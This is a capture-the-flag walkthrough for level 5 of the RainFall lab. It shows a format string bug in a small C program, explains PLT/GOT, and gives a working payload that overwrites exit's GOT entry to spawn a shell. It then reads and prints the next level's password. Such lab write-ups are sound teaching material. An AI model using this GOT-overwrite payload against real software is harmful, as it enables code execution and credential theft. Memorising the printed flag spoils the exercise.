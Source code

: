 # Level 5

## Answer
Our C source code generates the same assembly code as the original binary. Compile it as follows:
```
gcc -fno-stack-protector source.c
```

Let's take a look at the source code:
```c
#include <stdlib.h>
#include <stdio.h>

void o(void)
{
    system("/bin/sh");
    _exit(1);
}

void n(void)
{
    char buffer[512];
    fgets(buffer, 512, stdin);
    printf(buffer);
    exit(1);
}

int main(void)
{
    n();
}
```

Let's focus on the `n` function. It reads input using the `fgets` function, which is known to be safe due to its mechanism to limit the number of bytes read. However, the `printf` function is known to be unsafe when user input is passed as the format argument, it's referred to as a format string vulnerability.

This exercise is the same as the previous ones, except that we have to write the address of the `o` function into the value that the GOT entry address for `exit` points to. Please refer to the [level3 walkthrough](../level3/walkthrough.md) for a detailed explanation of the format string vulnerability.

This only works because `exit` is a function in the Procedure Linkage Table (PLT), a mechanism used in dynamic linking to call external functions. When a function like `exit` is called, the PLT initially redirects to the Global Offset Table (GOT) entry for the function, which then points back to the PLT and subsequently to the dynamic linker for the first call. Once the dynamic linker has been called, the GOT is updated with the address of the function, and the next time the function is called, the GOT will point directly to the function.
> Read more about that [here](https://reverseengineering.stackexchange.com/questions/1992/what-is-plt-got).

Here you see the disassembly of the `exit` function:
```bash
(gdb) disass exit
Dump of assembler code for function exit@plt:
   0x080483d0 <+0>:     jmp    *0x8049838
   0x080483d6 <+6>:     push   $0x28
   0x080483db <+11>:    jmp    0x8048370
```

The PLT is the set of instructions you see (`jmp`, `push`, `jmp`).  
The GOT entry for the `exit` function is referenced by the address `0x8049838`, which is used in the indirect jump instruction.

The `jmp *0x8049838` instruction dereferences the address stored at `0x8049838` and jumps to it. After our tampering, this will be the address of the `o` function.

So, first let's locate our input string on the stack:
```bash
level5@RainFall:~$ python -c 'print("AAAA %x %x %x %x")' | ./level5
AAAA 200 b7fd1ac0 b7ff37d0 41414141
```

In this output, 41414141, the hexadecimal representation of 'AAAA', is found at the fourth position.

Using GDB we find that the address of the `o` function is `0x080484a4`, and we showed before that the address of the GOT entry for `exit` is `0x8049838`.

We can then craft our payload:
```
address of the GOT entry for exit + address of o + %n format specifier pointing to the fourth argument

"\x08\x04\x98\x38"[::-1] + "%134513824p" + "%4$n"
```

Since we need to write `080484A4` into the value pointed to by the address of the GOT entry for `exit`, we write 134513828 (`080484A4` in decimal) characters (4 from the address of the GOT table and 134513824 from the width specifier of `%p`).  
Then, we use the `%n` format specifier to write the count of bytes written so far into the fourth argument, which corresponds to the GOT table address.

Let's run our payload:
```bash
level5@RainFall:~$ (python -c 'print("\x08\x04\x98\x38"[::-1] + "%134513824p" + "%4$n")' && echo 'cat /home/user/level6/.pass') | ./level5
[...]
0x200
d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
```

We are now level6! Let's move on to the next level.
